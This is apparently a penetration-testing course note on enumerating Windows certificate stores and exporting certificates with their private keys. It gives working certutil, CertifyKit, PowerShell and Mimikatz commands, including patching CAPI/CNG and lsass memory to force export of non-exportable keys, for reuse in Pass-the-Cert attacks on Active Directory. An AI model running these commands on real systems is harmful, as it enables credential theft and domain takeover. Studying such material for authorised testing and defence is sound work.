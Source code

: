 ## Exporting certificates and their private keys using Window’s Crypto APIs##
#### What's running under the hood ####
- On a computer that has the Windows operating system installed, the operating system stores a certificate locally on the computer in a storage location called the _certificate store_. A certificate store often has numerous certificates, possibly issued from a number of different certification authorities (CAs).
- There are three types of certificate stores in Windows.
	1. User Account store
	2. Service Account store
	3. Local Computer store
- Each of the three stores contain a number of containers which certificates go into
	- Personal (can be known as **My** when using scripts to add certs)
	- Trusted Root Certification Authority (can be known as **Root**)
	- Enterprise Trust
	- Intermediate Certification Authority
	- Active Directory User Object
	- Trusted Publishers
	- Untrusted Certificates
	- Third Party Root Certification Authorities
	- Trusted People

#### What the attack is about ####
- It is possible to export user/machine certificates from the Windows Certificate Manager if our current user has appropriate privileges.
- These methods use the **Microsoft CryptoAPI** (CAPI) or more modern Cryptography API: Next Generation (CNG) to interact with the certificate store. These APIs perform various cryptographic services that needed for certificate storage and authentication (among other uses).
- Certificates can be exported in a `.pem`/`.cer` or `.pfx` format.
- Certificates can then be reused to Pass-the-Cert and authenticate to Active Directory through PKINIT.
- If the certificate is password protected, it could be vulnerable to brute force/password guessing attacks.
- It is possible to list and export certificates from the Windows Certstore using:
	- built-in tools like CertUtil
	- built-in PowerShell Cmdlets
	- external tools like CertStealer, CertifyKit

### Enumeration ###
- If we have Local Admin access to the machine, it is possible to enumerate other Users' CertStores.

1. **certutil**
- List folders for each certificate store.
```
PS C:\ADCS\Auditor> certutil -enumstore

  (CurrentUser: -user)
LocalMachine
  (CurrentService: -service)
  (Services: -service -service)
  (Users: -user -user)
  (CurrentUserGroupPolicy: -user -grouppolicy)
  (LocalMachineGroupPolicy: -grouppolicy)
  (LocalMachineEnterprise: -enterprise)

  My                 "Personal"
  Root               "Trusted Root Certification Authorities"
  Trust              "Enterprise Trust"
  CA                 "Intermediate Certification Authorities"
  TrustedPublisher   "Trusted Publishers"
  Disallowed         "Untrusted Certificates"
  AuthRoot           "Third-Party Root Certification Authorities"
  TrustedPeople      "Trusted People"
  ClientAuthIssuer   "Client Authentication Issuers"
  FlightRoot         "Preview Build Roots"
  TestSignRoot       "Test Roots"
  AddressBook        "Other People"
  Local NonRemovable Certificates
  Remote Desktop     "Remote Desktop"
  REQUEST            "Certificate Enrollment Requests"
  SmartCardRoot      "Smart Card Trusted Roots"
  TrustedAppRoot     "Trusted Packaged App Installation Authorities"
  TrustedDevices     "Trusted Devices"
  Windows Live ID Token Issuer
  WindowsServerUpdateServices
CertUtil: -enumstore command completed successfully.
```

- Enumerate the _LocalMachine_ – **My** Personal CertStore
```
PS C:\ADCS\Auditor> certutil -store My
```

- Enumerate the _CurrentUser_ – **My** Personal CertStore
```
PS C:\ADCS\Auditor> certutil -store -user My
```

- _You can enumerate any other store you want for saved certificates by altering the `My` argument._
- Do not forget to search in both the _LocalMachine_ and _CurrentUser_ stores!

2. **PowerShell**
- List the accessible certificate stores.
```
PS C:\ADCS\Auditor> Get-ChildItem Cert:\


Location   : CurrentUser
StoreNames : {TrustedPublisher, ClientAuthIssuer, Root, UserDS...}

Location   : LocalMachine
StoreNames : {TestSignRoot, ClientAuthIssuer, Remote Desktop, Root...}
```

- Recursively search for certificates inside all the containers in _LocalMachine_ CertStore.
`Get-ChildItem Cert:\LocalMachine\ -Recurse`

- Recursively search for certificates inside all the containers in _CurrentUser_ CertStore.
`Get-ChildItem Cert:\CurrentUser\ -Recurse`

3. **CertifyKit**
- Enumerate the _CurrentUser_ – **My** Personal CertStore
`.\CertifyKit.exe list`

- Enumerate the _LocalMachine_ – **My** Personal CertStore
`.\CertifyKit.exe list /storename:my /storelocation:localmachine`

- _You can enumerate any other store you want for saved certificates by altering the `my` argument._
#### Exfiltration ####
1. **certmgr**
Run → `certmgr.msc` → Action → All Tasks → Export ...

2. **certutil**
- We need to use the appropriate Certificate **Serial Number**.
`PS C:\Windows\Tasks> certutil -p "certpass" -exportpfx 3000000009ab1d2a9f13756439000000000009 C:\Windows\Tasks\studentadmin.pfx`

2. **CertifyKit**
- We need to use the appropriate Certificate **Thumbprint**.
`PS C:\Windows\Tasks> .\CertifyKit.exe list /storename:my /storelocation:localmachine /certificate:93B4027A4CD6A67A175E796E5DF8B673ACD2D75D /outfile:C:\Windows\Tasks\studentadmin_certifykit.pfx`

3. **Mimikatz**
- In some conditions, the CAPI or CNG APIs are configured to block the private key export and not allow extraction of non-exportable certificates
- This can be patched with Mimikatz to allow exportation of private keys.
- If keys are marked as not exportable then you will have to patch CAPI to allow export of non-exportable keys in the current process. This can be done with the `crypto::capi` command.
- If you are trying to export device certificates that are not exportable, Mimikatz can instead patch the memory of the running lsass.exe process to bypass protections using the `crypto::cng` command.
`PS C:\Windows\Tasks> .\mimikatz.exe "privilege::debug" "crypto::capi" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"`

4. **PowerShell**
- If tools like CertUtil are blocked for execution, we can alternatively use PowerShell cmdlets to import/export certificates from the CertStore.
- We need to use the appropriate Certificate **Thumbprint**.
```
$mypwd = ConvertTo-SecureString -String "Passw0rd!" -Force -AsPlainText
PS C:\Windows\Tasks> Export-PfxCertificate -Cert Cert:\LocalMachine\My\93B4027A4CD6A67A175E796E5DF8B673ACD2D75D -FilePath C:\Windows\Tasks\studentadmin_psh.pfx -Password $mypwd
```